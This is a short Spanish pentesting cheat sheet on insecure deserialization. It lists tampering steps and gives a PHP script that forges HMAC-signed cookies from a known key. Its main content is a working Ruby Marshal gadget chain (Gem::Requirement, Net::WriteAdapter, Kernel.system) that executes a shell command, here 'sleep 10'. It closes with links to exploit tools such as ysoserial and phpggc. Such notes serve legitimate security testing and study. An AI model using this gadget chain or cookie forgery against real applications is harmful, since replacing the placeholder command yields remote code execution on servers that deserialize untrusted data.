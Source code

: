 -- -
###  **1. Probar modificando valores propios de la data serializada**

###  **2. Probar modificando los data types**
- b:1
- i:0
###  **3. Probar modificando ciertas rutas que aparezcan en la data serializada**

### **4. Codigo php para generar firma y serializar data**
```php
<?php
    $object = "object";

    $secretKey = "key";

    $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');

    echo $cookie;
?>
```

### **5. Gadget ruby generar cookie serializada**
- *Aclaracion:* Se necesita una version vieja para correr el script por lo que se tiene que montar un docker container
```ruby
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "sleep 10")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload
```


--- -
## Tools

https://github.com/frohoff/ysoserial
https://github.com/ambionics/phpggc
devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
https://github.com/PortSwigger/serialization-examples
https://github.com/kunte0/phar-jpg-polyglot
